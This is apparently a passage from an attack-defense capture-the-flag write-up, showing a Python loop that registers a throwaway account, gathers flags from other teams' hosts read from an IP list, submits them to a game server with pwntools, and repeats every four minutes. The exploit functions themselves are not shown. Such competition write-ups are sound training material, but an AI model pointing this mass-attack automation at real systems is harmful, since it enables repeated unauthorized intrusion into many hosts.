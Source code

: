 ```python
    global USER_COOKIE
    IP_PORT = HOST_IP + ":9696"
    USER_COOKIE = ""
    sign_up(str(randint(1000, 10000)) + "@emal.com")
    flags = attack_multiple_users()
    r = pwn.remote(GAME_SERVER_IP, GAME_SERVER_PORT)

    for flag in flags:
        r.sendline(flag)
        res = r.recvline()
        print(res)

    r.close()
    
def attack_all_hosts():
    ips = open('./ips.txt', 'r').read().split("\n")

    for ip in ips:
        if ip == "10.1.59.1": # ignore our host
            continue
        try:
            attack_host(ip)
        except TimeoutError:
            print(f"Timeout occurred while attacking {ip}")
        except Exception as e:
            print(f"An error occurred while attacking {ip}: {e}")


while True:
    attack_all_hosts()
    sleep(60*4)
```

## Results
Points from attacking:
![](Attachments/Pasted%20image%2020240721025716.png)
